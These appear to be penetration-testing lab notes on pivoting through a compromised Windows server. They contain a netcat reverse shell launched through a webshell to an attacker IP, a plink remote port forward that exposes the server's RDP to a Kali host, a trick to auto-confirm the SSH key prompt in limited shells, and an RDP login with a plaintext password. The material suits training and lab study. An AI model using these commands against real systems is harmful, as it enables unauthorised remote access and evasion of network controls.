 - Set up **nc** listener on Kali
```bash
nc -nlvp 4446
```
\
- Using webshell, execute **nc** for reverse shell
```bash
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.4 4446
```

- Set up Plink with a remote port forward in order to access the MULTISERVER03 RDP port from Kali
```bash
C:\Windows\Temp\plink.exe -ssh -l kali -pw [password] -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.161
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server''s ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
PuTTY''s cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "kali".
Linux kali 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 21 15:50:39 2022 from 192.168.50.64
kali@kali:~$ 
```
	- After the **-R** option
		- The socket to open on the Kali SSH server
		- The RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to <kali IP>.
	- We will also pass the username (**-l**) and password (**-pw**) directly on the command line.

> With limited shells (like non-tty Linux ones), you may not be able to enter a response for the `Store key in cache` request.
> Automate the confirmation with `cmd.exe /c echo y`, piped into the **plink.exe** command. This will emulate the confirmation that we usually type when prompted. The entire command would be: `cmd.exe /c echo y | plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <kali ip>`

- RDP into the server
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
